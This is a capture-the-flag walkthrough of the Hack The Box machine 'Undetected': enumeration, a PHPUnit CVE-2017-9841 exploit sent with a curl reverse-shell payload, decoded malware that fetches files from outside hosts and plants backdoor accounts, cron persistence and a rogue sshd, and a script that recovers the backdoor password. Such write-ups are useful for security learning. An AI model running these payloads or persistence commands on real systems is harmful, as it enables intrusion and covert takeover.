


# Undetected

First as usual, `nmap`.

```
# Nmap 7.92 scan initiated Sun Mar 20 14:36:22 2022 as: nmap -vvv -p 22,80 -sCV -oA init 10.10.11.146
Nmap scan report for 10.10.11.146
Host is up, received syn-ack (0.098s latency).
Scanned at 2022-03-20 14:36:36 +07 for 10s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2 (protocol 2.0)
| ssh-hostkey:
|   3072 be:66:06:dd:20:77:ef:98:7f:6e:73:4a:98:a5:d8:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDeVJjvJKCD1dlTm7jo6sY5A6q2oWFakWfH/y6lkWB5eIeVxzQTT/XXyA2RW/Zegb7vbpculYjr6cPtbouTLqPkyi2Xzyk3Jz2jQHKi6qTcHIQL75tITJKPCag4tAAIvKpSCwT13B38TKd0KV2R8T59raCu83095p/GaLrdhwGUbuD0p+/GnN1jIsLs04V26rbPKLmMJLj7Dj/+yCo/CF88/4EQaFFC920sjln4FZ7FlVhv4mIwIb10nIsEgvsKBIGvvu4ZKKKU+Al6p8bYI50srY/plKu0RxZpKE6QGV17IC38q8CDsLWkmFr5emeIxHfvgUlYaAOruACcnru6azsJw69s2Kq/dKaz8K6PjRb9Ybf6/Ix8xGhfJ/gH6x0PhlxIKXD1M93XILJmgKRPJpzqrA6NZ+mtQwx0JFsgHHJno/TSrx00E6GPEtUPHcxOVZE0m0Y9rfd5Q8W6/eJN/Q3nMIywfHKZE1RUQOziGtud/jAOOApvrRHRO6l0riwQCK8=
|   256 1f:a2:09:72:70:68:f4:58:ed:1f:6c:49:7d:e2:13:39 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBQjfhdRHFh+eC/2RtmQwDSGmf0psHnd2uqXFyN0zdiyxvF3WCQYaxOgerNZqC0RyQjm2hW0DN6/0oim3slS8dw=
|   256 70:15:39:94:c2:cd:64:cb:b2:3b:d1:3e:f6:09:44:e8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFdnC6v7My/dt23PaoX7MGbuZ8/8KZh1O+xt4dDFvFQK
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Diana's Jewelry
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.41 (Ubuntu)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 20 14:36:46 2022 -- 1 IP address (1 host up) scanned in 23.79 seconds
```

Looking around the website on port 80, we have `store.djewelry.htb` which we can add to our `/etc/hosts` along with `djewelry.htb`. Visiting `djewelry.htb` seems the same as using the IP address but `store.djewelry.htb` gives a new page with links to PHP pages. Knowing that, I fuzz for virtual hosting and directories.

```sh
$ ffuf -u 'http://10.10.11.146/' -H 'Host: FUZZ.djewelry.htb' -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fs 15283
store                   [Status: 200, Size: 6215, Words: 528, Lines: 196, Duration: 210ms]
```

```sh
$ gobuster dir -u 'http://djewelry.htb/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html -r

/images               (Status: 200) [Size: 4621]
/icons                (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 15283]
/css                  (Status: 200) [Size: 1745]
/js                   (Status: 200) [Size: 2208]
/fonts                (Status: 200) [Size: 7574]
/server-status        (Status: 403) [Size: 277]
```

```sh
$ gobuster dir -u 'http://store.djewelry.htb/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -r

/login.php            (Status: 200) [Size: 4129]
/cart.php             (Status: 200) [Size: 4396]
/css                  (Status: 200) [Size: 2175]
/js                   (Status: 200) [Size: 2791]
/index.php            (Status: 200) [Size: 6215]
/images               (Status: 200) [Size: 12563]
/products.php         (Status: 200) [Size: 7447]
/vendor               (Status: 200) [Size: 2928]
/fonts                (Status: 200) [Size: 7580]
/server-status        (Status: 403) [Size: 283]
```

The landing page for `store.djewelry.htb` has the user email `contact@djewelry.htb` at the bottom which we might be able to use later.

Checking the results from fuzzing directories of `store.djewelry.htb`, we see that directory listing is enabled. I checked `/vendor` for outdated plugins and found that `PHPUnit` is vulnerable to [CVE-2017-9841](https://blog.ovhcloud.com/cve-2017-9841-what-is-it-and-how-do-we-protect-our-customers/) (arbitrary PHP code execution). Getting a reverse shell is simple with the following `curl` command.

```sh
curl -X POST 'http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php' --data "<?php echo system(\"bash -c 'exec bash -i &>/dev/tcp/LHOST/LPORT <&1'\");?>"
```

After getting a shell as `www-data`, I ran [linpeas](https://github.com/carlospolop/PEASS-ng) and got results saying the box is vulnerable to CVE-2021-4034 and CVE-2021-3560. However, I couldn't get exploits for those to work so it might have been patched against them.

Looking at `/var/backups`, we have the binary `info` which seems interesting so I downloaded it to my local machine and analyzed it. Running `rabin2 -z info` (an executable from `radare2`), we get a long hex string which decodes to the following (I formatted the output a bit):

```sh
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys;
wget tempfiles.xyz/.main -O /var/lib/.main;
chmod 755 /var/lib/.main;
echo "* 3 * * * root /var/lib/.main" >> /etc/crontab;
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd;
awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd;
while read -r user group home shell _; do
  echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd;
done < users.txt;
rm users.txt;
```

Cracking the hash with `john`, I got the password `ihatehackers`. Using the password to `su - steven1`, we should become `steven`. I then added my SSH key and SSH in as steven for a better shell.

Looking at `/var/mail/steven`, we have the following email.

```
To: steven@production
From: root@production
Subject: Investigations

Hi Steven.

We recently updated the system but are still experiencing some strange behaviour with the Apache service.
We have temporarily moved the web store and database to another server whilst investigations are underway.
If for any reason you need access to the database or web application code, get in touch with Mark and he
will generate a temporary password for you to authenticate to the temporary server.

Thanks,
sysadmin
```

It seems something's wrong with Apache. I then checked `/usr/lib/apache2/modules` with `ls -l` and saw that 2 files have different timestamps: `libphp7.4.so` and `mod_reader.so`. Downloading and checking them with `rabin2 -z`, I found an interesting base64 string in `mod_reader.so` with decodes to the following commands:

```sh
wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd;
touch -d `date +%Y-%m-%d -r /usr/sbin/a2enmod` /usr/sbin/sshd
```

It appears someone backdoored `mod_reader.so` to download a rogue `sshd` binary and hid it by matching its timestamp with a known normal file. I then downloaded the backdoored `sshd` and analyzed it with `ghidra`.

Searching for `backdoor` (ctrl+shift+e in ghidra), we get a lot of instances in `auth_password`.



Looking at the `auth_password` function, we see a 31-byte string named `backdoor` and its values initiated as hex strings. The value of `backdoor[30]` seems to be a negative value but setting it to be the `Char` type gives us `0xa5`.
After initiating the `backdoor`, there's some code which appears to be `xor`-ing the backdoor with `0x96`.



I re-assembled the backdoor password using `python`.

```python
#!/usr/bin/python3

from pwn import *

backdoor = b""
backdoor += p64(0xf0e7abd6).rstrip(b"\x00")
backdoor += p64(0xa4b3a3f3).rstrip(b"\x00")
backdoor += p64(0xf7bbfdc8).rstrip(b"\x00")
backdoor += p64(0xfdb3d6e7).rstrip(b"\x00")
backdoor += p64(0xb2d6f4a0fda0b3d6).rstrip(b"\x00")
backdoor += p64(0xbcf0b5e3).rstrip(b"\x00")
backdoor += p64(0xa9f4).rstrip(b"\x00")
backdoor += p64(0xa5).rstrip(b"\x00")

backdoor = xor(backdoor, b"\x96")

print(backdoor.decode())
```

With the password, we can SSH in as root.
